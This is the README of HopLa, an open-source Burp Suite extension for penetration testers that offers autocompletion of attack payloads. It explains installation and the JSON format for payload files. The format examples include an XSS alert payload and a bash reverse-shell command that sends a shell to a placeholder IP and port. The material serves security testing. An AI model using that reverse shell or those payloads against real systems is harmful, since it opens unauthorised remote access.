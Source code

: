 # HopLa

💥 All the power of PayloadsAllTheThings, without the overhead. 
This extension adds autocompletion support and useful payloads in Burp Suite to make your intrusion easier.

Feel free to improve with your payloads ! ❤️

Developed by Alexis Danizan [![Twitter Follow](https://img.shields.io/twitter/follow/alexisdanizan?style=social)](https://twitter.com/alexisdanizan/)  
Released as open source by [Synacktiv 🥷](https://www.synacktiv.com/) 


![Demo GIF](img/demo.gif)

## Getting Start


### Installation

 * Download the jar file from the release directory
 * Add it to Burp Suite using the Extender tab

### Build

Execute `gradle build` and you'll have the plugin ready in `releases/HopLa.jar`.

## Usage

By default HopLa is ship with default payloads. You can add your's by loading a custom JSON file in the the menu. 

At the first usage HopLa creates a JSON file containing all the payloads in the jar file directory.

Press `Ctrl+Q` to display the payload library menu.

You can disable the global autocompletion in the top menu.

For i3, add the following line to `$HOME/.config/i3/config` for floating frame:

```
for_window [class=".*burp-StartBurp.*" title="^ $"] floating enable
```

### How to add payloads

The JSON payload file follow the structure:

```json
{
    "categories": [
        {
            "name": "XSS",
            "values": [
                {
                    "name": "Simple",
                    "value": "<script>alert(1)</script>"
                },
                {
                    "name": "Multiline",
                    "value": "AAAA\nBBBB"
                },
                {
                    "name" : "Nested XSS menu",
                    "values": [
                        {
                            "name": "Simple 2",
                            "value": "<script>alert(1)</script>"
                        }
                    ]
                }
            ]
        }
    ],
    "keywords": [
        {
            "name": "Headers",
            "values": [
                "X-Forwarded-For",
                "X-Originally-Forwarded-For",
                "X-Originating-Ip",
                "X-Originating-IP"
            ]
        }
    ]
}
```
There is no nesting limit.

You can automatically add a prompt dialog:
```json
{
    "name":  "Bash UDP",
    "value":  "sh -i >& /dev/udp/§IP§/§PORT§ 0>&1",
    "prompt": ["IP","PORT"]
},
```

To add only keywords that do not appear in the menu, you can add them in the keywords category:

```json
{
    "keywords": [
        {
            "name": "Headers",
            "values": [
                "X-Forwarded-For",
                "X-Originally-Forwarded-For",
                "X-Originating-Ip",
                "X-Originating-IP"
            ]
        }
    ]
}
```

## Roadmap

* Support custom key binding for payload menu

## Thanks To

 * https://github.com/Static-Flow/BurpSuiteAutoCompletion
 * https://github.com/d3vilbug/HackBar

Thanks a lot for your awesome work !

## License

Released under BSD 3-Clause License see LICENSE for more information

Please feel free to report bugs, suggest features, or send pull requests.
